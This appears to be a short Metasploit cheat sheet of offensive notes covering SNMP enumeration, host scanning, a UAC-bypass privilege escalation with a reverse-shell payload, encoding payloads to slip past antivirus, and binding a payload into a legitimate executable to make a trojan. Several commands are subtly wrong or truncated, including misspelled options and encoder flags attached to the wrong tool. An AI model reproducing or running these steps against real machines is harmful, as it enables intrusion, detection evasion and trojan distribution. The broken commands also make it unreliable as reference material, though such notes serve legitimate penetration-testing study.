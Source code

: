 General Commands:
```
show auxilary
search snmp
use snmp_enum
info
show options
set RHOS ip
run
```
```
setg RHOST ip (global set)
```

Hosts:
```
db_nmap ip-range --top-ports 20 (to populate database)
```

Search Services:
```
services -p 443 (search all machines with 443 open)
```

Modifying exploit:
```
~/.msf4/modules/exploits/windows/misc/vulnserver.rb
```

Post exploitation
- exploit/windows/local/bypassuac
- set payload to reverse-shell  (so that a new session will be created)
- migrate to a system privileged process


Encode
```
msfpayload ............ | msfconsole -e x86/shikata_ga_nai -t exe -c 9 -o exe.exe
```

Binding
```
msfpayload ............ | msfconsole -e x86/shikata_ga_nai -t exe -c 9 -x goodexe.exe -o bound.exe
```
